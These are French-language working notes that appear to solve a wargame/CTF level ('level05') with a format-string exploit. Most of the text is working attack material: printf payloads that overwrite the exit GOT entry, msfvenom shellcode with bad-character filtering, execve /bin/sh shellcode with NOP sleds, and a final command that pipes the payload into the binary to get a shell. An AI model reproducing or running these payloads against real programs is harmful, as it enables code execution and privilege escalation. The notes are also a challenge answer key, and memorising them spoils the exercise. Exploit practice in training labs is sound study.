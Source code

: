 https://samsclass.info/127/proj/ED204c.htm
Ca l air d etre juste une string vulnerability.
Juste rewrite sur exit l adresse du shellcode
(python -c 'print "\xe0\x97\x04\x08JUNK\xe4\x97\x04\x08.%x.%x.%x.%x.%x.%x.%x.%x.%x.%n.%x.%n"')
Program received signal SIGSEGV, Segmentation fault.
0x00000042 in ?? ()
(gdb) x/1x 0x080497e0
0x80497e0 <exit@got.plt>:	0x00000042

// Things to change in the shellcode because of this line  s[i] ^= 0x20u;

// Probleme => 0x50 qui equivaut a push eax se transforme en 0x70 => Solution? On utilise un outil qui s appelle msf venom avec le flag -b.

msfvenom -p linux/x86/exec CMD=/bin/sh -f c -b "\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59"

"\x29\xc9\x83\xe9\xf5\xe8\xff\xff\xff\xff\xc0\x5e\x81\x76"
"\x0e\x91\xf6\xf2\x0f\x83\xee\xfc\xe2\xf4\xfb\xfd\xaa\x96"
"\xc3\x90\x9a\x22\xf2\x7f\x15\x67\xbe\x85\x9a\x0f\xf9\xd9"
"\x90\x66\xff\x7f\x11\x5d\x79\xfe\xf2\x0f\x91\xd9\x90\x66"
"\xff\xd9\x81\x67\x91\xa1\xa1\x86\x70\x3b\x72\x0f"

"\x33\xc9\xb1\x0b\xd9\xee\xd9\x74\x24\xf4\x5b\x81\x73\x13\xcc\xd6\xf1\xff\x83\xeb\xfc\xe2\xf4\xa6\xdd\xa9\x66\x9e\xb0\x99\xd2\xaf\x5f\x16\x97\xe3\xa5\x99\xff\xa4\xf9\x93\x96\xa2\x5f\x12\xad\x24\xde\xf1\xff\xcc\xf9\x93\x96\xa2\xf9\x82\x97\xcc\x81\xa2\x76\x2d\x1b\x71\xff"

=> ce shellcode fonctionne mtn faut l utiliser pour le printf();

$(python -c 'print "\xe0\x97\x04\x08JUNK\xe2\x97\x04\x08%x%x%x%x%x%x%x%x%101x%hn%34x%hn"+ "\x90" * 3 + "\x33\xc9\xb1\x0b\xd9\xee\xd9\x74\x24\xf4\x5b\x81\x73\x13\xcc\xd6\xf1\xff\x83\xeb\xfc\xe2\xf4\xa6\xdd\xa9\x66\x9e\xb0\x99\xd2\xaf\x5f\x16\x97\xe3\xa5\x99\xff\xa4\xf9\x93\x96\xa2\x5f\x12\xad\x24\xde\xf1\xff\xcc\xf9\x93\x96\xa2\xf9\x82\x97\xcc\x81\xa2\x76\x2d\x1b\x71\xff"')

// shellcode en cours, autre soucis pas assez de place pour mettre le shellcode en entier

"\x6a\x0b\x58\x68\x2f\x73\x68\x00\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80" autre shellcode a tester sur un autre niveau


// soucis => ce shellcode contient un byte null.
=> Solution: on a remplace le 00 par 2f.

run <<< $(python -c 'print "dat_will" + "\x90" * 19 + "\x31\xc0\x31\xd2\x31\xc9\x51\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x8d\x1c\x24\xb0\x0b\xcd\x80"';python -c 'print "A" *  282 + "\x50\xa0\x04\x08"';)


"\x6a\x0b\x58\x68\x2f\x73\x68\x2f\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80";

 run <<< $(python -c 'print "\x31\xc0\x31\xd2\x31\xc9\x51\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x8d\x1c\x24\xb0\x0b\xcd\x80" + "\x7e\xd6\xff\xff\xe0\x97\x04\x08\xe2\x97\x04\x08" + "%x%x%x%x%x%x%x%x%x%x%x%x%x%x%79x%hhn%hn%100x%hf"')

=> commande a modifier un peu pour overwrite sur le exit proprement 
=> go le tranformer en ffffd6bf
=> Ne pas mettre de junk car on depasse les 100 caracteres
=> On depasse les 100 caracteres trouvez une solution.
=> solution mettre le shellcode en avance
run <<< $(python -c 'print "\xc5\xd6\xff\xffjunk\xe0\x97\x04\x08junk\xe2\x97\x04\x08" + "%x%x%x%x%x%x%x%x%26634x%hn%28270x%hn%76096x%hn" + "\x90" * 5 + "\x31\xc0\x31\xd2\x31\xc9\x51\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x8d\x1c\x24\xb0\x0b\xcd\x80"')

run <<< $(python -c 'print "\xe5\xd6\xff\xffjunk\xe0\x97\x04\x08junk\xe2\x97\x04\x08" + "%x%x%x%x%x%x%x%x%26634x%hn%28270x%hn%76096x%hn" + "\x90" * 5 + "\x31\xc0\x31\xd2\x31\xc9\x51\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x8d\x1c\x24\xb0\x0b\xcd\x80"')

cela ouvre un bin/dash sur gdb!

=> Regarder sur lvl02 ou se trouve la vraie memoire dans le term 
=> Il ya 0x20 de diff entre la memoire de gdb et la memoire normale

\xc5\xd6\xff\xff => doit etre \xe5\xd6\xff\xff
et pour ffffd6bf => ffffd6df

(python -c 'print "\xe5\xd6\xff\xffjunk\xe0\x97\x04\x08junk\xe2\x97\x04\x08" + "%x%x%x%x%x%x%x%x%26634x%hn%28302x%hn%76064x%hn" + "\x90" * 5 + "\x31\xc0\x31\xd2\x31\xc9\x51\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x8d\x1c\x24\xb0\x0b\xcd\x80"';cat) | ./level05

VOILA LA SOLUTION